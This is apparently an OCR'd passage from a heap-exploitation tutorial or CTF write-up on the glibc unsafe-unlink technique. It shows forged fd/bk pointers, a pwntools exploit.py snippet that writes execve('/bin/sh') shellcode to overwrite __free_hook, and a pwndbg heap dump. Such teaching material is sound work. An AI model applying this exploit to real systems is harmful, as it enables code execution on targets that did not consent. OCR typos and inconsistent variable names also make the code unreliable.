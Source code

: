 It's at this point that malloc will perform the unlink procedure on our forged fd and bk, giving us 
that reflecter wirte primitive.

Malloc will follow our fD to what it believes is another chunk and overwrite that chunk's BK with our BK.
Then malloc will follow our BK and overwrite that chunk's FD with our FD.

For this to work, both addresses we supply must point to writable memory, wich means if we try to ovwewrite
the free hook with the address of system(), for example, the second half of our reflected write will attempt
to write the address of the free hook into the system() function, causing segfault.

Full RELRO is still enforced however, so we need to target the malloc hooks for our attack to succeed.

We have a heap leak and we can write shellcode onto an executable hap, so what's stopping us from using our
reflected write to overwrite the free hook with the address of our shellcode?

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

fd = libc.sym._free_hook - 0x 18
bk = heap + 0x20
prev_size = 0x90
fake_size = 0x90
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))
edit( chunk_a, p64(fd)+p64(bk)+shellcode+p8(0)*(0x70-len(shellcode)) + p64(prev_size) + p64(fake_size) )
```

Next , we'll focus on the first half of the reflected write, in wich our bk will copied to where our fd points.

That way, when we attempt to free another chunk after the unlinking has taken place,our shellcode will be executed instead.

So let's point out fd at the free hook minus 0x18 to account for the fact that malloc will treat whatever our fd point to as a chunk and overwrite its.

## First half of the unlinking procedure

```
pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x00007ffff7dd6790	0x0000555555757020	.g...... puUUU..
0x555555757020	0x90909090909016eb	0x9090909090909090	................
0x555555757030	0x9090909090909090	0x010101010101b848	........H.......
0x555555757040	0x68632eb848500101	0x0431480169722e6f	..PH..cho.ri.H1.
0x555555757050	0xf631d231e7894824	0x000000050f583b6a	$H..1.1.j;X.....
0x555555757060	0x0000000000000000	0x0000000000000000	................
0x555555757070	0x0000000000000000	0x0000000000000000	................
0x555555757080	0x0000000000000000	0x0000000000000000	................
0x555555757090	0x0000000000000090	0x0000000000000090	................
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk
pwndbg> p &__free_hook
```